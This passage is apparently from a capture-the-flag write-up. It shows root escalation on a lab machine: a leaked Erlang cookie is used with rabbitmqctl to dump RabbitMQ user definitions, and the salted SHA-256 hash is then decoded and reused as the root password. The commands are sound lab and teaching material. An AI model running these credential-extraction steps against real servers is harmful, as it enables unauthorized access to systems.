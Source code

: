 Enumerating the users for **RabbitMQ**, we notice a user with an interesting name: `The password for the root user is the SHA-256 hashed value of the RabbitMQ root user's password. Please don't attempt to crack SHA-256.`

```console
$ sudo rabbitmqctl --erlang-cookie 'UdEX5rcSZi5pg0ow' --node rabbit@forge list_users
Listing users ...
user    tags
The password for the root user is the SHA-256 hashed value of the RabbitMQ root user's password. Please don't attempt to crack SHA-256.       []
root    [administrator]
```
{: .wrap }

### Discovering Root Password

From the username, it appears that the password for the `root` user on the target is the **SHA-256 hash** of the `root` user's password on the **RabbitMQ** instance. We can retrieve this hash using the `export_definitions` command:

```console
$ sudo rabbitmqctl --erlang-cookie 'UdEX5rcSZi5pg0ow' --node rabbit@forge export_definitions /tmp/definitions.json
Exporting definitions in JSON to a file at "/tmp/definitions.json" ...

$ cat /tmp/definitions.json | jq '.users[] | select(.name == "root")'
{
  "hashing_algorithm": "rabbit_password_hashing_sha256",
  "limits": {},
  "name": "root",
  "password_hash": "49e6[REDACTED]BzWF",
  "tags": [
    "administrator"
  ]
}
```
{: .wrap }

The hash we received is in **base64** and according to the [RabbitMQ documentation](https://www.rabbitmq.com/docs/passwords#this-is-the-algorithm), it follows the structure: **`base64(<4 byte salt> + sha256(<4 byte salt> + <password>))`**.

![Rabbitmq Hash](rabbitmq_hash.webp){: width="800" height="400"}

To retrieve the hash, we first convert the **base64** hash to **hex**:

```console
$ echo -n '49e6[REDACTED]BzWF' | base64 -d | xxd -p -c 100
e3d7ba85295d1d16[REDACTED]98073585
```

Next, removing the **4-byte salt** (`e3d7ba85`) from the beginning, we are left with the actual hash: `295d1d16[REDACTED]98073585`.

Testing this as the password for the `root` user, we successfully gain a shell as `root` and can read the root flag at `/root/root.txt`:
